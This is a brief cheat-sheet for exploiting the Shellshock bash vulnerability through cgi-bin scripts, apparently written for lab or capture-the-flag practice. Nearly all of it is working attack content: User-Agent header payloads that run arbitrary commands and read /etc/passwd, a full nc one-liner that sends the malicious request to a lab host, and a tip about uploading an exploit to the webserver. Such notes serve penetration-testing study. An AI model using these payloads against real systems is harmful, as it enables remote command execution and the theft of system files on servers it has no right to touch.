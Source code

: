 Shellshock

## When you have a call to cgi-bin

- Modify a header in burp, for example user-agent:
`User-Agent: () { :;}; echo $(</etc/passwd)`
`User-Agent: () { :;}; <command_here>` (your command may not be echoed back, or you can have a 500 internal error but it worked).

- Or directly : `echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: ptl-f9988b7c-3e5ecaaf.libcurl.so\r\nConnection: close\r\n\r\n" | nc ptl-f9988b7c-3e5ecaaf.libcurl.so 80`

- Try to find the path of nc, or upload your exploit on the webserver. 